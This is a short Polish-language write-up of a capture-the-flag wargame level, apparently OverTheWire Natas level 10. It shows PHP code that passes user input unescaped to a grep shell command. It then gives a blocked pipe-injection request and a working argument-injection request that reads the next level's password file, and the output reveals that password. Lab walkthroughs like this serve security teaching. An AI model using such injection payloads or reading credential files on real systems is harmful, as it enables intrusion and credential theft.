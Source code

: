 Ten poziom jest podobny do poprzedniego, z tym, że teraz następuje dodatkowo walidacja znaków w żądaniu

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```

Teraz podanie:
```
GET /?needle=|cat%20../../../../etc/natas_webpass/natas10&submit=Search HTTP/1.1
```
zwraca:
```
<pre>
Input contains an illegal character!
</pre>
```

Wiadomo, że hasło znajduje się w pliku "/etc/natas_webpass/natas11". Żeby się do niego dostać można napisać w grep wyszyukiwanie wszystkich ciągów znaków z podanego pliku z hasłem.
```
GET /?needle=.%20../../../../etc/natas_webpass/natas11
```
Wynik:
```
Output:
<pre>
../../../../etc/natas_webpass/natas11:UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk
dictionary.txt:African
dictionary.txt:Africans
```